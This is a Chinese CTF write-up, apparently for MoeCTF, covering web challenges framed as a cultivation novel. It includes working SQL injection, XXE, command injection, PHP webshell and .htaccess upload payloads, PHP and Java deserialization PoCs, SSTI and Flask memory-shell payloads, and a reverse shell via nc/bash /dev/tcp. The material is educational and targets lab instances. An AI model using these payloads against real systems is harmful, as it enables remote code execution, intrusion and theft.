- [\[F12 审阅\] 01 第一章 神秘的手镯](#f12-审阅-01-第一章-神秘的手镯)
- [\[Brupsuite 抓包\] 02 第二章 初识金曦玄轨](#brupsuite-抓包-02-第二章-初识金曦玄轨)
- [\[JS 代码审阅\] 03 第三章 问剑石！篡天改命！](#js-代码审阅-03-第三章-问剑石篡天改命)
- [\[BurpSuite 抓包发包\] 04 第四章 金曦破禁与七绝傀儡阵](#burpsuite-抓包发包-04-第四章-金曦破禁与七绝傀儡阵)
  - [第一关](#第一关)
  - [第二关](#第二关)
  - [第三关](#第三关)
  - [第四关](#第四关)
  - [第五关](#第五关)
  - [第六关](#第六关)
  - [第七关](#第七关)
  - [最后](#最后)
- [\[路径穿越\] 05 第五章 打上门来！](#路径穿越-05-第五章-打上门来)
- [\[SQL 闭合绕过\] 06 第六章 藏经禁制？玄机初探！](#sql-闭合绕过-06-第六章-藏经禁制玄机初探)
- [\[robots.txt\] 07 第七章 灵蛛探穴与阴阳双生符](#robotstxt-07-第七章-灵蛛探穴与阴阳双生符)
- [\[SQL 联合注入\] 08 第八章 天衍真言，星图显圣](#sql-联合注入-08-第八章-天衍真言星图显圣)
- [\[截断命令 RCE\] 09 第九章 星墟禁制·天机问路](#截断命令-rce-09-第九章-星墟禁制天机问路)
- [\[XXE\] 10 第十章 天机符阵](#xxe-10-第十章-天机符阵)
- [\[XXE\] 10 第十章 天机符阵\_revenge](#xxe-10-第十章-天机符阵_revenge)
- [\[PHP 伪协议\] 11 第十一章 千机变·破妄之眼](#php-伪协议-11-第十一章-千机变破妄之眼)
- [\[Webshell\] 12 第十二章 玉魄玄关·破妄](#webshell-12-第十二章-玉魄玄关破妄)
- [\[图片马\] 13 第十三章 通幽关·灵纹诡影](#图片马-13-第十三章-通幽关灵纹诡影)
- [\[.htaccess 文件上传\] 14 第十四章 御神关·补天玉碑](#htaccess-文件上传-14-第十四章-御神关补天玉碑)
- [\[竞争条件攻击\] 15 第十五章 归真关·竞时净魔](#竞争条件攻击-15-第十五章-归真关竞时净魔)
- [\[文件包含 + data 伪协议\] 16 第十六章 昆仑星途](#文件包含--data-伪协议-16-第十六章-昆仑星途)
- [\[PHP 反序列化\] 17 第十七章 星骸迷阵·神念重构](#php-反序列化-17-第十七章-星骸迷阵神念重构)
- [\[PHP 反序列化\] 18 第十八章 万卷诡阁·功法连环](#php-反序列化-18-第十八章-万卷诡阁功法连环)
- [\[PHP 反序列化\] 19 第十九章 星穹真相·补天归源](#php-反序列化-19-第十九章-星穹真相补天归源)
- [\[PHP 反序列化\] 19 第十九章 星穹真相·补天归源 revenge](#php-反序列化-19-第十九章-星穹真相补天归源-revenge)
- [\[SSTI 模板注入\] 20 第二十章 幽冥血海·幻语心魔](#ssti-模板注入-20-第二十章-幽冥血海幻语心魔)
- [\[SSTI 模板注入\] 21 第二十一章 往生漩涡·言灵死局](#ssti-模板注入-21-第二十一章-往生漩涡言灵死局)
- [\[内存马 + SUID 提权\] 22 第二十二章 血海核心·千年手段](#内存马--suid-提权-22-第二十二章-血海核心千年手段)
- [\[Java 反序列化\] 23 第二十三章 幻境迷心·皇陨星沉(大结局)](#java-反序列化-23-第二十三章-幻境迷心皇陨星沉大结局)
- [\[JS 代码审阅\] Moe笑传之猜猜爆](#js-代码审阅-moe笑传之猜猜爆)
- [\[JS 代码审阅\] 摸金偶遇FLAG，拼尽全力难战胜](#js-代码审阅-摸金偶遇flag拼尽全力难战胜)
- [\[无数字字母 RCE\] 这是...Webshell？(及 Revenge)](#无数字字母-rce-这是webshell及-revenge)

## [F12 审阅] 01 第一章 神秘的手镯



JavaScript 层面禁止粘贴，F12 找到输入框，取消 paste 事件的绑定，粘贴附件内容即可



也可以在 JS 文件中直接找到 Flag

---

## [Brupsuite 抓包] 02 第二章 初识金曦玄轨

打开 F12，寻找可用信息


提示我们前往 `/golden_trail`



无法直接获得 Flag，阅读提示

> 省流：你知道什么是http请求包吗？抓一个看看吧！

使用 Burpsuite 或控制台网络工具抓包得到 Flag



---

## [JS 代码审阅] 03 第三章 问剑石！篡天改命！

先看提示

> 省流：仙门试炼台中央矗立着玄天剑宗至宝"问剑石"，石身流转着七彩霞光。你作为新晋弟子需测试天赋，但暗中知晓问剑石运作的玄机——其天赋判定实则通过金曦玄轨传递信息。初始测试将显示天赋：B，光芒：无，你需要施展"篡天改命"之术，修改玄轨中的关键参数，使问剑石显现天赋：S，光芒：流云状青芒(flowing_azure_clouds)的异象，从而获得宗门重视！

审阅页面源码发现测试天赋的实现是通过调用一个 API，目前传入了 GET 属性 `level=B`，POST 数据 `{ manifestation: 'none' }`



根据提示，修改参数后，Hackbar 传参得到 Flag。



---

## [BurpSuite 抓包发包] 04 第四章 金曦破禁与七绝傀儡阵

### 第一关

直接浏览器访问: [/stone_golem?key=xdsec](http://127.0.0.1:44841/stone_golem?key=xdsec)

获得玉简碎片: bW9lY3Rme0Mw

### 第二关

使用 Hackar 等工具 POST 发包



获得玉简碎片: bjZyNDd1MTQ3

### 第三关

想要实现“从本地访问这个页面”，可以通过修改头部 **X-Forwarded-For 为本地地址 `127.0.0.1` 详见** [http://www.runoob.com/w3cnote/http-x-forwarded-for.html](http://www.runoob.com/w3cnote/http-x-forwarded-for.html)



获得玉简碎片: MTBuNV95MHVy

### 第四关

要求使用 moe browser 访问，实际并不存在叫做 moe browser 的浏览器，但是我们可以通过修改 UA 做到让服务器认为我们使用了这个浏览器。（User Agent 详见：[http://blog.browserscan.net/zh/docs/useragent](http://blog.browserscan.net/zh/docs/useragent)）



获得玉简碎片: X2g3N1BfbDN2

### 第五关

我们需要需要以 xt 的身份认证 user，我们可以想到的方式以下几种：

- 修改 Cookie / LocalStorage
- **修改 HTTP Authentication Header 进行 Basic 认证**

本题为第一种



获得玉简碎片: M2xfMTVfcjM0

### 第六关

考察 HTTP 头部 Referer 详见：[http://developer.mozilla.org/zh-CN/docs/Web/HTTP/Reference/Headers/Referer](http://developer.mozilla.org/zh-CN/docs/Web/HTTP/Reference/Headers/Referer)



获得玉简碎片: bGx5X2gxOWgh

### 第七关

按要求发就行，但是不知道为什么，不能用 F12 控制台编辑重发，故使用 Python 脚本，也不行，非常奇怪，最后 Burpsuite 过了。



获得玉简碎片: fQ==

### 最后


拼接密钥，base64 解码得到 Flag


---

## [路径穿越] 05 第五章 打上门来！

> 省流：CTF中有一招在文件目录中穿梭的技法，是什么呢？

没啥好说的，考察 `../` 代表上级目录


不过要补充一点的是，如果能拿到一个环境的蚁剑，我们首先应该在虚拟终端中使用 `env` 查看环境变量尝试寻找 Flag，再去寻找可能存在于根目录或其他位置的 Flag 文件。Web 开发时，常常把密钥等私密文件加载于环境变量，本题便是如此：在初始化时将环境变量中的 Flag 存储在了根目录的 Flag 文件中。



---

## [SQL 闭合绕过] 06 第六章 藏经禁制？玄机初探！

> 省流：一个登录页面。（不告诉我账号密码就让我登录，~~难道我是神仙吗哈哈？~~）
> "九重玄机锁..."K皇沉吟，"此乃'天衍真言术'的入门考验！所谓玄机禁制，实则是以特殊'真言'构筑的规则牢笼——在凡俗界，称之为'数据库'；其破解之道，名为'注入之术'！”

阅读小说，提示可能要注入。登录页面首先考虑 SQL 注入。

先假设服务器后端编写了这样的不安全的 PHP 代码来完成登录

```php
$sql = "SELECT * FROM users WHERE username='$username' AND password='$password'";
$result = $conn->query($sql);
if ($result->num_rows > 0) {
    // 登录成功
} else {
    // 不成功
}
```

由于后端选择直接拼接我们的输入和 sql命令，所以我们可以通过构造闭合来绕过这条检验。

最终构造：username=-1' or '1'='1'#

-1' 使前面的单引号闭合，or '1'='1' 使 条件永远成立，#注释掉后面的全部指令，最终结果就是后端错误地返回了全部用户，我们成功绕过登录。



---

## [robots.txt] 07 第七章 灵蛛探穴与阴阳双生符

> 省流：有这样一个文件，它是一个存放在网站根目录下的纯文本文件，用于告知搜索引擎**爬虫**哪些页面可以抓取，哪些页面不应被抓取。它是网站与搜索引擎之间的 “协议”，帮助网站管理爬虫的访问行为，保护隐私内容、节省服务器资源或引导爬虫优先抓取重要页面。

由提示可知，我们应该访问`robots.txt`文件，得到屏蔽了搜索引擎检索的`/flag.php`路由 [http://baike.baidu.com/item/robots%E5%8D%8F%E8%AE%AE/2483797](http://baike.baidu.com/item/robots%E5%8D%8F%E8%AE%AE/2483797)



访问`/flag.php`，我们需要构造a,b两个参数，使他们值不同而md5值相同



我们有多种方式能达到效果，这里选择构造 0e 的方式，其余详见：[http://hello-ctf.com/hc-web/php_basic/#md5](http://hello-ctf.com/hc-web/php_basic/#md5)



---

## [SQL 联合注入] 08 第八章 天衍真言，星图显圣

先尝试和第六章一样的 payload, 这次的输出是 Welcome admin。

有输出说明注入类型不变，后端还是形如 `$sql = "SELECT * FROM users WHERE username='$username' AND password='$password'";` 的构造。

如果这里回显的逻辑是 `Welcome ${result}` 的话，我们可以推测 `user` 表只有 `admin` 一行用户（虽然没啥用）。这里没有直接给出 Flag，我们就要通过注入去数据库拿了。



> 此术为破解玄机阁禁制的无上秘法，需精通"SELECT、UNION、FROM"三大真言精髓。相传此术修至大成，可洞悉万物本源，破解一切禁制。然修习此术需极高悟性，千年来唯xt长老等寥寥数人掌握。

根据提示，我们这次要用到"SELECT、UNION、FROM"。先尝试套公式拿到存储用户的表的列数，和所有表的名称

```sql
# 先试这个，假设只有一列
-1' union select group_concat(table_name) from information_schema.tables where table_schema=database()#
# 两列
-1' union select 1,group_concat(table_name) from information_schema.tables where table_schema=database()#
# 有回显了，但是顺序反了
-1' union select group_concat(table_name),1 from information_schema.tables where table_schema=database()#
```


经过尝试，我们得到这个数据库存在 flag, users 两张表，且 users 表具有两列数据。我们要找的 Flag 应该就在 flag 表里面。于是，大胆猜测 flag 表只有一列，写出最终注入：

```sql
-1' union select *,1 from flag;#
```


拿到 Flag。

---

## [截断命令 RCE] 09 第九章 星墟禁制·天机问路

非常神秘一道题，不给提示。先试试他给的例子，反正不吃亏。



拿到一个报错，没有头绪，拿去问问 AI



现在我们知道了，后端会拿我们的输入去丢给 dig 之类的命令行工具，但是由于配置了坏掉的 DNS，我们没有办法获得正常的查询结果。

由于我们没有办法获得正常的查询结果，就排除了构造参数 URL 来获得信息的方法，猜测后端直接拼接了用户输入和指令，我们尝试注入，使用`;`隔断前一条命令。



猜测正确，输出环境变量，拿到 Flag。



---

## [XXE] 10 第十章 天机符阵

> 省流：flag在flag.txt里

提示看不出来什么，访问页面，随意输入尝试提交。



根据输出内容，猜测本题考察**XML注入（关于XML注入，参考：**[www.cnblogs.com/backlion/p/9302528.html](http://www.cnblogs.com/backlion/p/9302528.html)）在DTD里构造外部引用实体可得 Flag

```xml
<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE Anything [
<!ENTITY file SYSTEM "file:///var/www/html/flag.txt">
]>
<输出>&file;</输出>
```



---

## [XXE] 10 第十章 天机符阵_revenge

```xml
<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE Anything [
<!ENTITY file SYSTEM "file:///flag.txt">
]>
<输出>&file;</输出>
```

先试一试非 revenge 版我们的 payload，直接拿到答案。



---

## [PHP 伪协议] 11 第十一章 千机变·破妄之眼

> 省流：HDdss 看到了 **GET**  参数名由`m,n,o,p,q`这五个字母组成（每个字母出现且仅出现一次），长度正好为 5，虽然不清楚字母的具体顺序，但是他知道**参数名等于参数值**才能进入。
> 阵中符箓瞬息万变，参数真名每时不同。

想要爆破时刻变化的 1/5! 的参数概率有点低，我们考虑转变方向，想象出题人会怎样写这段检验代码，我们写出以下伪代码：

```jsx
var real_para = get_random_mnopq();
setInterval(()=>{
  //每隔1s刷新一次
  real_para = get_random_mnopq(); //获得随机排列
}, 1000);

// core logic
if($_GET[real_para] && $_GET[real_para]==real_para){
  pass;
}
else{
  error;
}
```

如果后端这样编写检验逻辑，那么不难想到，我们完全可以通过**传入所有可能排列**的方式来绕过这里。

```python
from itertools import permutations
import requests
payload = {}
for p in permutations("mnopq"):
    payload["".join(p)] = "".join(p)

res = requests.get("http://127.0.0.1:38067", params=payload)
print(res.url, res.text)
```



编写脚本生成 get 参数，发现我们被重定向到了`/find.php`。我们浏览器访问，发现一个文件系统，查看 flag.php：



出题人说 flag 就在这儿，我们经过一番搜寻确实没发现其他地方藏有 Flag，暂且相信他。我们只能推测 flag 被注释掉导致无法被渲染，这里尝试伪协议 base64 编码一下： `php://filter/read=convert.base64-encode/resource=flag.php`





拿到 Flag

---

## [Webshell] 12 第十二章 玉魄玄关·破妄

> 省流：这道题用于学习 **蚁剑** 的使用，请使用 **蚁剑** 完成本题


不用看提示也能看出来很标准的蚁剑题目


配置后测试链接无误，得到蚁剑终端，获取环境变量，搞定



---

## [图片马] 13 第十三章 通幽关·灵纹诡影

本题考图片马 [https://blog.csdn.net/weixin_42789937/article/details/128268458](https://blog.csdn.net/weixin_42789937/article/details/128268458)

由于未对拓展名做出要求，我们生成 .php 后缀的符合要求的图片，附加上一句话木马即可

`FF D8 FF` 是 JPEG 文件格式的“魔术数字”或文件签名的一部分,不用刻意去管。

```python
# Create a tiny valid JPEG and embed a PHP webshell both as a JPEG comment and appended to the end.

from PIL import Image
from pathlib import Path
out_path = Path("shell.php")

# 1) Make a tiny JPEG
img = Image.new("RGB", (16, 16), (123, 200, 50))
php_payload = b'<?php @eval($_POST[\'cmd\']);?>'

img.save(out_path, format="JPEG", quality=80)

# 2) Append the same payload to the end of the file (survives most image operations)
with open(out_path, "ab") as f:
    f.write(b"\n")
    f.write(php_payload)
    f.write(b"\n")

```



成功上传后使用蚁剑 getshell 即可得到 Flag。



---

## [.htaccess 文件上传] 14 第十四章 御神关·补天玉碑

> 省流：Apache有一个特殊文件，是什么呢？

九块残破玉碑悬浮在魔气风暴中，碑文被腐蚀得支离破碎。唯首碑勉强可辨：

```xml
<IfModule mod_rewrite.c>
  RewriteEngine On
  Rew... # 残缺
  ...魔气侵蚀... # 魔化文字
</IfMod... # 残缺

```

> 御神关任务：
> **【补天】修复守护玉碑**
> **【斩魔】激活玉碑镇压魔心**

这次得多读一点小说才能获取完整的提示，先访问题目，这次题目做了“禁止上传攻伐符咒（如.php, .php5, .jsp, .asp等邪道术法）”的限制，这就意味着如果我们上传 jpg 等格式的图片马就会被简单地被服务器识别成图片，不会执行其中的 php 代码。

于是我们上网搜索提示信息。



我们能够操作的只有 `/uploads` 这一特定目录，无法访问 httpd.conf 配置，故进一步了解 .htaccess 文件: [http://developer.mozilla.org/en-US/docs/Learn_web_development/Extensions/Server-side/Apache_Configuration_htaccess](http://developer.mozilla.org/en-US/docs/Learn_web_development/Extensions/Server-side/Apache_Configuration_htaccess)

我们的思路就是通过 `.htaccess` 重写服务器识别我们上传的图片马的逻辑，使我们对其的请求被识别为 PHP 页面。

```xml
<FilesMatch "\.(jpg|jpeg)$">
    SetHandler application/x-httpd-php
</FilesMatch>
```

先上传这个 `.htaccess` 文件，再上传 .jpg 格式的图片马，就能够顺利连接上蚁剑了



## [竞争条件攻击] 15 第十五章 归真关·竞时净魔

占位：竞争条件攻击（Race Condition）思路记录。

---

## [文件包含 + data 伪协议] 16 第十六章 昆仑星途

简单的文件包含绕过，考察了 data 伪协议。构造payload: `?file=data://text/plain,<?php system('ls /'); ?>` 添加的 `.php` 会被排斥于 `>` 外。



---

## [PHP 反序列化] 17 第十七章 星骸迷阵·神念重构

简单的反序列化，注意 urlencode。关于 PHP 反序列化，请学习：[https://hello-ctf.com/hc-web/php_unser_base/](https://hello-ctf.com/hc-web/php_unser_base/)

PoC:

```php
<?php

class A
{
    public $a;
    function __destruct()
    {
        eval($this->a);
    }
}

$pwn = new A();
$pwn->a = "system('ls /');";
echo urlencode(serialize($pwn));
```

---

## [PHP 反序列化] 18 第十八章 万卷诡阁·功法连环

先了解一下怎么构造含有 private 属性的类的反序列化 payload。

方法 A — Reflection（推荐）

要点：创建对象（可跳过构造），用 `ReflectionProperty::setAccessible(true)` 写入私有属性，然后 `serialize()`。

```php
<?php
class PersonA { private $name; function __wakeup(){} }
class PersonB { public $name; function work(){} }

// 创建 obj，注入私有属性，序列化
$rc = new ReflectionClass('PersonA');
$obj = $rc->newInstanceWithoutConstructor();

$prop = $rc->getProperty('name');
$prop->setAccessible(true);

$b = new PersonB(); $b->name = 'payload';
$prop->setValue($obj, $b);

echo serialize($obj), PHP_EOL;

```

要点提示：

- 用 `newInstanceWithoutConstructor()` 跳过构造器（若需可直接 new）。
- `setAccessible(true)` 使 private 可写。

方法 B — 手工构造序列化字符串（直接输出 payload）

要点：私有属性键名格式为 `"\0ClassName\0prop"`（含 null byte），序列化格式需准确的字节长度（`strlen`）。

```php
<?php
class PersonA { private $name; function __wakeup(){} }
class PersonB { public $name; function work(){} }

// 先序列化属性值（这里是 PersonB 实例）
$b = new PersonB(); $b->name = 'payload';
$serializedB = serialize($b);

// 构造私有属性键名（含 null 字节）
$key = "\0" . "PersonA" . "\0" . "name";
$klen = strlen($key);

// 拼接最终 payload（单属性示例）
$payload = sprintf('O:%d:"%s":1:{s:%d:"%s";%s}',
    strlen("PersonA"), "PersonA",
    $klen, $key,
    $serializedB
);

echo $payload, PHP_EOL;

```

要点提示：

- 私有属性键名必须包含 `\0ClassName\0prop`（字节计数）。
- `strlen()` 用于字节长度计算（非常重要）。

然后我们审题，给了我们两个类`PersonA`和`PersonB`。注意到可利用的eval在`PersonB`但是我们无法直接调用work方法，而`PersonA`的`_wakeup`魔法方法提供了调用任何方法的机会，于是思路就是通过`PersonA`调用`PersonB`的work方法达到RCE。

PoC 如下:

```php
<?php
class PersonA {
    private $name;
    function __wakeup() {
        $name=$this->name;
        $name->work();
    }
}

class PersonB {
    public $name;
    function work(){
        $name=$this->name;
        eval($name);
    }

}

$rc = new ReflectionClass('PersonA');
$obj = $rc->newInstanceWithoutConstructor();

$prop = $rc->getProperty('name');
$prop->setAccessible(true);

$b = new PersonB(); $b->name = 'system("ls /");';
$prop->setValue($obj, $b);

$payload = serialize($obj);
unserialize($payload); // 调试__wakeup()
echo urlencode($payload);
```

---

## [PHP 反序列化] 19 第十九章 星穹真相·补天归源

认真审一下题，这个代码使用了很多重复的变量名，容易搞混。

给了我们基类 `Person`，定义了 `name`, `id`, `age`三个属性。

作为函数触发时，接受一个参数 `x`，将自己参数的 `id` 当作一个对象，修改它的 `name` 为 `x`，修改它的 `age` 为本对象的 `name` 属性值。

`PersonA` 在被销毁时，执行 `$name->$id($age);`

`PersonB` 当你动态地设置它的属性时，无论修改什么属性都会变成修改它的 `name` 为对应值。

`PersonC` 被反序列化时将自己的 `id` 认作一个对象，修改它的 `age` 等于自己的 `age` ，然后将它当作函数执行，传入自己作为实参。他还有一个 `__Check` 方法，接受参数 `y` ，然后对自身属性 `age` 和 `name` 进行关键词 `flag` 的检测，然后执行`$name($y);`

然后我们就明了了，最后肯定是要调用`__Check` （毕竟它写了一个关键词过滤求我们打。反推回去，调用一个方法我们得用到 `PersonA` ，其实就这样就行了，其他都是干扰。

PoC 如下：

```php
<?php
class Person
{
    public $name;
    public $id;
    public $age;

    public function __invoke($id)
    {
        $name = $this->id;
        $name->name = $id;
        $name->age = $this->name;
    }
}

class PersonA extends Person
{
    public function __destruct()
    {
        $name = $this->name;
        $id = $this->id;
        $age = $this->age;
        $name->$id($age);
    }
}

class PersonB extends Person
{
    public function __set($key, $value)
    {
        $this->name = $value;
    }
}

class PersonC extends Person
{
    public function __Check($age)
    {
        if(str_contains($this->age . $this->name,"flag"))
        {
            die("Hacker!");
        }
        $name = $this->name;
        $name($age);
    }

    public function __wakeup()
    {
        $age = $this->age;
        $name = $this->id;
        $name->age = $age;
        $name($this);
    }
}

$pwn = new PersonA();
$pc = new PersonC();
$pc -> name = "system";
$pwn -> name = $pc;
$pwn -> id = "__Check";
$pwn -> age = "ls /";

$payload = serialize($pwn);
echo urlencode($payload);
```

直接改 `$pwn -> age = "cat /flag"` 没过滤这里。



---

## [PHP 反序列化] 19 第十九章 星穹真相·补天归源 revenge

认真审一下题，这个代码同样使用了很多重复的变量名，容易搞混。

给了我们基类 `Person`，定义了 `name`, `id`, `age`三个属性。

`PersonA` 在被销毁时，执行 `$name->$id($age);`

`PersonB` 当你动态地设置它的属性时，无论修改什么属性都会变成修改它的 `name` 为对应值。

作为函数触发时，接受一个参数 `x`，将自己参数的 `id` 当作一个对象，修改它的 `name` 为 `x`，修改它的 `age` 为本对象的 `name` 属性值。

`PersonC` 被反序列化时将自己的 `id` 认作一个对象，修改它的 `age` 等于自己的 `age` ，然后将它当作函数执行，传入自己作为实参。

他还有一个`check` 方法，接受参数 `y` ，然后对自身属性 `name` 进行关键词 `system` 的检测，然后执行 `var_dump($name($y));`

根据这道题普通版本的经验，最后肯定是要调用`check`。反推回去，调用一个方法我们得用到 `PersonA` ，其实就这样就又行了，其他都是干扰，真是没有一点长进呢（

不过这道题貌似不能用 `eval` 了，这难不倒我们。

```php
<?php
class Person
{
    public $name;
    public $id;
    public $age;
}

class PersonA extends Person
{
    public function __destruct()
    {
        $name = $this->name;
        $id = $this->id;
        $name->$id($this->age);
    }
}

class PersonB extends Person
{
    public function __set($key, $value)
    {
        $this->name = $value;
    }

    public function __invoke($id)
    {
        $name = $this->id;
        $name->name = $id;
        $name->age = $this->name;
    }
}

class PersonC extends Person
{
    public function check($age)
    {
        $name=$this->name;
        if($age == null)
        {
            die("Age can't be empty.");
        }
        else if($name === "system")
        {
            die("Hacker!");
        }
        else
        {
            var_dump($name($age));
        }
    }

    public function __wakeup()
    {
        $name = $this->id;
        $name->age = $this->age;
        $name($this);
    }
}

$pwn = new PersonA();
$pc = new PersonC();
$pc -> name = "getenv";
$pwn -> name = $pc;
$pwn -> id = "check";
$pwn -> age = "FLAG";

$payload = serialize($pwn);
echo urlencode($payload);
```



优先猜环境变量，不行再去找文件，再不行 `exec` 写个一句话木马也可以慢慢找到。

---

## [SSTI 模板注入] 20 第二十章 幽冥血海·幻语心魔

一道 flask 题目，先阅读附件源码。



注意到登陆成功页面渲染时使用了不安全的 `render_template_string` 函数且没有过滤，我们可以 对 `username` 参数进行 ssti 注入。

手动工作我就不教了，https://hello-ctf.com/hc-web/ssti/#_7 可以在这里学习。

我们这里使用 `fenjing` 一把梭。https://github.com/Marven11/FenJing

先安装好 FenJing 工具，启动 webui（[http://127.0.0.1:11451/](http://127.0.0.1:11451/)）。



这样填写参数，目标链接填写 http://127.0.0.1:42803/?password=iwantflag ，等待几分钟。

看到分析完成了就可以直接在 webui 执行命令拿 flag 了，当然你也可以使用 fenjing 提供的 payload 自己去做：{{(cycler.next.**globals**.os.popen('cat /flag')).read()}}



---

## [SSTI 模板注入] 21 第二十一章 往生漩涡·言灵死局

前置阅读： 20章

审阅附件源码，发现是带 waf 的 ssti。这还说啥，一把梭了。



戳啦！梭不出来！

接下来进入手搓环节，先上 payload:

```php
http://127.0.0.1:33363/?username={%25%20print({}[%27_%27%27_class_%27%27_%27]|attr(%27_%27%27_base_%27%27_%27)|attr(%27_%27%27_subclasses_%27%27_%27)()|attr(%27_%27%27_getitem_%27%27_%27)(207)|attr(%27_%27%27_init_%27%27_%27)|attr(%27_%27%27_glo%27%27bals_%27%27_%27))[%27_%27%27_builtins_%27%27_%27][%27eval%27](%27_%27%27_import_%27%27_(%22os%22).popen(%22cat%20/flag%22).read()%27)%20%25}&password=iwantflag
```

可读版：

```python

```

先阅读手搓指南： [https://www.freebuf.com/articles/web/359392.html](https://www.freebuf.com/articles/web/359392.html)

我们的黑名单 blacklist = ["__", "global", "{{", "}}"]

`{{` 和 `}}` 可以通过 `` 绕过， `global` 通过字符串拼接绕过，关于这道题，其他师傅有更好的 payload。



---

## [内存马 + SUID 提权] 22 第二十二章 血海核心·千年手段

打 SSTI 内存马

```python
{{url_for.__globals__['__builtins__']['eval'](
"app.after_request_funcs.setdefault(None, []).append(lambda resp: CmdResp if request.form.get('cmd') and exec(\"global CmdResp;CmdResp=__import__('flask').make_response(__import__('os').popen(request.form.get('cmd')).read())\")==None else resp)",
{'request':url_for.__globals__['request'],'app':url_for.__globals__['sys'].modules['__main__'].__dict__['app']}
)}}
```

进去 shell 发现权限不够，于是尝试 SUID 提权。SUID 程序查找

```python
find / -type f -perm -4000 2>/dev/null
```

```python
(MoeCTFer:/app) $ find / -type f -perm -4000 2>/dev/null
/usr/bin/rev
/usr/bin/mount
/usr/bin/passwd
/usr/bin/su
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/umount
/usr/bin/newgrp
/usr/bin/sudo
```

如果 `rev` 这个二进制文件带有 **SUID root 权限位**，当任何用户执行它时，进程的 **有效用户 ID (EUID)** 会被设置为 **文件属主**（root），而不是当前登录的用户。

rev.c

```python
#include <unistd.h>
#include <string.h> 
int main(int argc, char **argv) { 
for(int i = 1; i + 1 < argc; i++) { 
if (strcmp("--HDdss", argv[i]) == 0) { 
execvp(argv[i + 1], &argv[i + 1]); 
} 
} 
return 0; 
}
```

根据 rev.c 的代码逻辑，我们可以看到它会遍历传入的参数，寻找 `--HDdss` 标志，一旦找到，就会执行它后面的命令。

```python
rev --HDdss cat /flag
```

---

## [Java 反序列化] 23 第二十三章 幻境迷心·皇陨星沉(大结局)

放进 ij 反编译后发现两个求你打的函数 `WagTail`和 `ChainWagTail`，很容易能想到我们构造一条恶意狗链，利用反射 exec 反弹 shell。

但是我们很难通过单狗获得它所属的 `DogService` 从而触发 `WagTailChain`。但是，我们注意到 `DogService` 可以被序列化，于是思路就是构造一条狗放在 HashMap 里，当他被反序列化时，触发 `HashCode` 方法从而触发 `WagTail`，通过设定属性，让 `WagTail`触发我们自己构造的包含恶意狗链的 `DogService`的 `WagTailChain`方法，从而反弹 shell。

这里有一个坑，连接跳板机查看 nc 文档可知，-e 参数得放在最后面。



PoC如下：

```java
package com.example.demo.Dog;

import java.io.ByteArrayOutputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.Base64;
import java.util.HashSet;
import java.util.LinkedHashMap;
import java.util.Map;

public class PoC {
    private static String b64(Object obj) throws Exception {
        try (ByteArrayOutputStream baos = new ByteArrayOutputStream();
             ObjectOutputStream oos = new ObjectOutputStream(baos)) {
            oos.writeObject(obj);
            oos.flush();
            return Base64.getEncoder().encodeToString(baos.toByteArray());
        }
    }

    private static void setDogField(Dog d, String name, Object value) {
        try {
            Field f = Dog.class.getDeclaredField(name);
            f.setAccessible(true);
            f.set(d, value);
        } catch (Exception e) {
            throw new RuntimeException(e);
        }
    }

    private static Dog makeDog(int id, Object obj, String method, Class<?>[] types, Object[] args) {
        Dog d = new Dog(id, "d" + id, "cat", 114514);
        setDogField(d, "object", obj);
        setDogField(d, "methodName", method);
        setDogField(d, "paramTypes", types);
        setDogField(d, "args", args);
        return d;
    }

    public static void main(String[] args) throws Exception {
        // String[] rsCmd = new String[]{"bash", "-c", "bash -i >& /dev/tcp/127.0.0.1/4444 0>&1"};
        String[] rsCmd = new String[]{"nc", "127.0.0.1", "5000", "-e", "/bin/sh"};

        // 4-step reflective chain executed by DogService.chainWagTail()
        Dog d1 = makeDog(1, Class.class, "forName",
                new Class<?>[]{String.class}, new Object[]{"java.lang.Runtime"});
        Dog d2 = makeDog(2, null, "getMethod",
                new Class<?>[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[] {}});
        Dog d3 = makeDog(3, null, "invoke",
                new Class<?>[]{Object.class, Object[].class}, new Object[]{null, new Object[] {}});
        Dog d4 = makeDog(4, null, "exec",
                new Class<?>[]{String[].class}, new Object[]{rsCmd});

        Map<Integer, Dog> chain = new LinkedHashMap<>();
        chain.put(1, d1);
        chain.put(2, d2);
        chain.put(3, d3);
        chain.put(4, d4);

        // Embed the chain into a fresh DogService instance
        Class<?> svcCls = Class.forName("com.example.demo.Dog.DogService");
        Object svc = svcCls.getDeclaredConstructor().newInstance();
        Field fDogs = svcCls.getDeclaredField("dogs");
        fDogs.setAccessible(true);
        fDogs.set(svc, chain);

        // Trigger Dog: hashCode() -> wagTail(svc, "chainWagTail", ...) during HashSet deserialization
        Dog trigger = makeDog(0, svc, "chainWagTail", new Class<?>[]{}, new Object[]{});
        HashSet<Dog> set = new HashSet<>();
        set.add(trigger);

        System.out.println(b64(set));
    }
}
```

挑战题也是同样的思路，不过不能出网，我们只能使用另一种方式回显，有师傅用写前端的方式回显，这里我没做出来，故略。

---

## [JS 代码审阅] Moe笑传之猜猜爆

> **注意：本题跟爆破没有任何关系！！**

先审阅源码，发现成功后，程序通过请求API `/flag` 获取 Flag，没有任何加密



请求`/flag`得到答案



---

## [JS 代码审阅] 摸金偶遇FLAG，拼尽全力难战胜

游戏题，先读一遍源码，找到了获取 Flag 的核心逻辑。

```js
function getProgressBarText(style) {
    switch (style) {
        case 0:
            return ">>> 等待开始挑战...";
        case 1:
            return ">>> 防破译进程加载中...";
        case 2:
            return ">>> 正在骇入系统...";
        case 3:
            return ">>> 挑战超时";
        case 4:
            return `>>> 挑战已终止，正确密码 ${realCode.join("")}`;
        default:
            fetch("/verify", {
                method: "POST",
                headers: {
                    "Content-Type": "application/json",
                },
                body: JSON.stringify({
                    answers: realCode,
                    token: myToken
                })
            })
                .then((response) => response.json())
                .then((data) => {
                    if (data.correct) {
                        const flag = data.flag || "无法获取flag";
                        $(".computerTitle").text(`破译完成，已获取如下权限: ${flag}`);
                    } else {
                        $(".computerTitle").text(`破译失败: ${data.message || "未知错误"}`);
                    }
                })
                .catch((error) => {
                    console.error("Error verifying solution:", error);
                    $(".computerTitle").text("破译完成，但无法获取权限内容");
                });
            $(".decode-item-block").show();
            $(".leftPanel,.inputPanel").hide();
            return (
                ">>> 骇入成功" +
                (limitChallenge ? `，挑战用时：${passedTime} 秒` : "")
            );
    }
}
```

